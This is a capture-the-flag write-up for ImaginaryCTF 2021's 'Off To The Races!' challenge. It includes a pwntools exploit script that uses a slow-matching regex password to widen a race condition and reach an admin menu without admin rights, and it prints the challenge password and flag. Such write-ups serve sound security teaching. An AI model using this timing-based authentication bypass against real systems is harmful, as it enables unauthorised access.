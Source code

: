 # ImaginaryCTF 2021: Off To The Races!

![date](https://img.shields.io/badge/date-28.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![misc category](https://img.shields.io/badge/category-misc-lightgrey.svg) ![score](https://img.shields.io/badge/score-275-blue.svg)

## Description

They say that gambling leads to regrets, but we'll see. This online portal lets you bet on horse races, and if you can guess the admin password, you can collect all the money people lose, too. Maybe you'll collect enough to buy the flag?

## Attached files

- [races.py](https://imaginaryctf.org/r/D1DB-races.py)

## Summary

To acquire the flag we need to exploit race condition existing in the program, we will be able to use admin's menu while not being admin both of which are needed to buy a flag.

## Flag

``` ictf{regrets_may_be_the_plural_of_regex_but_ive_no_regrets_from_betting_on_a_sure_thing} ```

## Detailed solution

The program keeps track of how much money admin has, it starts at 0 and we need it to be at least 100 to buy the flag. 

It is very easy to do and does not require any exploits. We can simply bet 100 currency on 3 different horses, then login as admin and pick a winner.
This way whichever horse gets selected, admin account will have 100 currency.

We can do this with simple script

```
#!/bin/python

from pwn import *

io = remote('chal.imaginaryctf.org', 42016)

p = log.progress("Status:")

p.status("Placing bets")
io.recvuntil('>>>')
io.sendline('1')                           # place bet

io.recvuntil('bet on?')
io.sendline('A')                           # horse's name

io.recvuntil('to bet?')
io.sendline('100')                         # how much money

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('B')

io.recvuntil('to bet?')
io.sendline('100')

io.recvuntil('>>>')
io.sendline('1')

io.recvuntil('bet on?')
io.sendline('C')

io.recvuntil('to bet?')
io.sendline('100')


p.status("Logging in as admin")
io.recvuntil('>>>')

io.sendline('2')                           # login as admin
io.recvuntil('logout):')

io.sendline('ju5tnEvEEvErl05E')            # passwd


p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')                           # pick winner

io.interactive()
```

If we would check the money now we would see, that we really have the 100 currency.

Admin's password is checked using this regex

``` rx = re.compile(r'ju(5)tn((([E3e])(v\4))+\4\5)+rl0\1\4') ```

which would accept different passwords too, but I will simplify it to

``` 'ju5tn' + 'EvEEvE' * N + 'rl05E' ```

Now we need to somehow get into admin's menu while not being an admin.
It can be achived thanks to a race condition existing when checking the password.

```
def login():
    pwd = input("Enter admin password (empty to logout): ")
    if len(pwd) == 0:
        print("Logging out...")
        admin = 0
        return
    print("Validating...")
    Process(None, checkPass, None, args=(pwd,)).start()
    time.sleep(2)
    
def checkPass(pwd):
    valid = rx.match(pwd)
    if valid:
        print("Login success!")
        print("Redirecting...")
        admin.value = 1
    else:
        print("Login failure!")
        print("Redirecting...")
        admin.value = 0
```

We can see that password is checked on another thread, and thread displaying menus is just waiting 2 seconds to make sure password is already checked. 
We will exploit that by sending a password that takes long time to get verified, but also is wrong. 
This way the main thread has enough time to display admin's menu for us while password checking thread loggs us out.
We now have access to admin commands while not being admin.

All of this can be achived by modifying our script:
```
...
p.status("Getting money")
io.recvuntil('>>>')
io.sendline('1')


p.status('Logging out')
io.recvuntil('>>>')
io.sendline('4')

io.recvuntil('logout):')
io.sendline(
        'ju5tn' +
        'EvEEvE' * 16 +
        'Rl05E')


p.status('Buying flag /o/')
io.recvuntil('Redirecting...')
io.sendline('3')

io.interactive()
```

We need to send ``` EvEEvE ``` to the server 16 times for the password to need 2 seconds to get checked, this number will varry depending on system performance.
To fail password checking we send ``` Rl05E ``` with **capital** R at the end of the password.

Now we just can wait for password checking thread to log us out and acquire the flag.




























